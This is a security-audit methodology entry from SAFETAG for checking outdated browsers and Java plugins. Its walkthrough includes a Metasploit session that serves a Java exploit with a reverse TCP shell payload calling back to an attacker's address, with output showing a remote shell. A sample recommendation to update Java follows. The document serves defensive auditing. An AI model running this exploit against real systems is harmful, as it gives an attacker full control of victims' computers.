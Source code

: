 ```yaml
---
position: 50
approaches:
  - Technical
authors:
  - SAFETAG
skills_trained: []
remote_options:
  - with-support
time_required_minutes: 30
organization_size_under: 25
summary: |
  Though modern browsers are better at self-updating, and the prevalence of
  powerful plugins like flash and java are slowly declining, it is valuable to
  ensure that the browsers in-use have updated plugins and are themselves
  updated.
short_summary: Ensure that browsers in-use have updated plugins and are themselves updated.
materials_needed: |
  * Metasploit
walk_through: |
  ###### Outdated Java browser plugins

  While the threat described below is more severe if carried out by a local
  attacker (as they can more readily direct the victim to a malicious Web site),
  it also works remotely. In fact, if a user can be tricked, by a remote
  attacker, into clicking on a malicious email or Web link, attacks like this
  represent a significant perimeter threat. By compromising the victim’s
  machine, they can give the attacker a local point-of-presence without
  requiring the attacker to crack WPA keys or gain local access in some other
  way.

  Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious
  Web site:

  ```
  $ msfconsole

  I love shells --egypt

       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
  + -- --=[ 1114 exploits - 627 auxiliary - 178 post
  + -- --=[ 307 payloads - 30 encoders - 8 nops

  msf > use exploit/multi/browser/java_jre17_exec

  msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
  PAYLOAD => java/shell/reverse_tcp

  msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
  LHOST => 192.168.1.123

  msf exploit(java_jre17_exec) > set SRVPORT 8081
  SRVPORT => 8081

  msf exploit(java_jre17_exec) > set URIPATH java_test
  URIPATH => java_test

  msf exploit(java_jre17_exec) > run
  [*] Exploit running as background job.
  ```

  Step 2: At this point, any local user who visits
  http://192.168.1.123:8081/java_test, and who is running a sufficiently
  out-of-date version of the Java browser plugin, stands a good chance of giving
  the attacker full access to his computer:

  ```
  [*] Started reverse handler on 192.168.1.123:4444

  msf exploit(java_jre17_exec) |

  [*] Using URL: http://0.0.0.0:8081/java_test
  [*] Local IP: http://192.168.1.123:8081/java_test
  [*] Server started.

  msf exploit(java_jre17_exec) |

  <remote shell|
  ```

  Figure 1: Attacker in control of the victim’s computer through a remote
  command shell
considerations: ""
title: Check Browser and Plugin Vulnerabilities
skills_required: []
overview: Use direct access, interviewing, walk-throughs, or penetration testing
  methods to identify vulnerable browsers.
recommendations: |
  **Sample Recommendation for outdated Java**

  One or more of the organization’s laptops were seen to be running an outdated,
  known-vulnerable version of the Java plugin for Internet Explorer.

  This version contains a vulnerability that is easily exploitable using one of
  the recent Java exploit modules from the widely available Metasploit security
  auditing framework. These modules allow an attacker to gain complete control
  over the computer of a victim who visits a malicious Web site hosted anywhere
  on the Internet. If the attacker is inside the office LAN, they can easily
  trick the victim into visiting that malicious Web site without the victim even
  knowing it.

  At least one of the organization’s computers is running an outdated Java
  browser plugin, and exploit code is widely-available for several critical
  vulnerabilities in versions older than “Java 7, update 16.” All of the
  organization’s Java installations should be updated to the latest version.
  This can be troublesome, as (unlike the Windows operating system itself) Java
  plugins sometimes require user input before they will install updates.
---
```

